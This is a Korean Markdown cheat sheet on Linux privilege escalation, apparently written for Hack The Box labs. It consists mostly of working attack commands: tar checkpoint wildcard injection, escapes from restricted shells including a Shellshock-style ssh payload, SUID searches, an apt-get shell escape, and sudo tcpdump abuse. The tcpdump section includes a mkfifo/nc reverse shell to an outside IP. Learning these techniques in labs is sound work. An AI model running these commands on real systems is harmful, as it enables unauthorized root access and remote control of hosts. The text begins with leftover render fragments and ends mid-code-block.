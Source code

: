 total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```
```sudo -l```

<br/><br/>
# 제한된 Shell 탈출

- RBASH[Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)
- RKSH[Restricted Korn shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command)
- RZSH[Restricted Z shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html) 

## Escaping

### Command injection
```ls -l `pwd` ```<br/>

```
$ echo *
$ echo "$(<flag.txt)"
 또는
$ echo bin/*
$ man -C flag.txt
 또는
$ ssh -t user@<IP> bash # Get directly an interactive shell 
$ ssh user@<IP> -t "bash --noprofile -i" 
$ ssh user@<IP> -t "() { :; }; sh -i "
```

<br/><br/>
# Special Permissions
```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```<br/>
```find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null```

## GTFObins
```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```

<br/><br/>
# Sudo Rights Abuse
```sudo -l```<br/>

```
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```
```
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
